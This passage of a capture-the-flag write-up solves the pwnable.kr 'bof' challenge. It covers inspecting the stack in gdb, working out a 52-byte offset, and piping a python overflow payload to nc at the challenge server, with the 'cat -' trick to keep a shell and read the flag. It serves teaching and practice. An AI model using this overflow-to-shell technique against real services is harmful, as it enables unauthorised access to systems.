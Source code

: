 This is why we love debuggers. We can stop in the middle of the execution and inspect what is going on behind the curtains. How is the stack right now, just after we pass 32 *A*'s?

~~~~
gdb-peda$ x/16x $ebp-52
0xffffced4: 0xffffcf74  0xf7fa8000  0x41414141  0x41414141
0xffffcee4: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcef4: 0x41414141  0x41414141  0x67368200  0x00000001
0xffffcf04: 0x00000003  0xffffcf28  0x08048588  0xdeadbeef
~~~~

We are showing here the stack from 52 bytes under EBP until *0xdeadbeef*. Please notice that the gcc aligns bytes in blocks of 16. Due to this alignment and possibly other optimizations, the compiler adds 3 more groups of 16 bytes each!

    0x67368200  0x00000001  0x00000003 

Ok, so now we know we must prepend 3\*4 more *A*'s to our payload. An elegant way of printing our payload is:

    $ (python2.7 -c 'print "A" * 52 + "\xbe\xba\xfe\xca"')

All right, now we just need to send it to the server and get our flag! Sending

    $ (python2.7 -c 'print "A" * 52 + "\xbe\xba\xfe\xca"') | nc pwnable.kr 9000

Will result in the shell being closed just after being opened. In order to keep it open we use the *cat -* trick. If you have never seen it, get used to, because it is really useful:

~~~~
$ (python2.7 -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
~~~~

There you go! :)
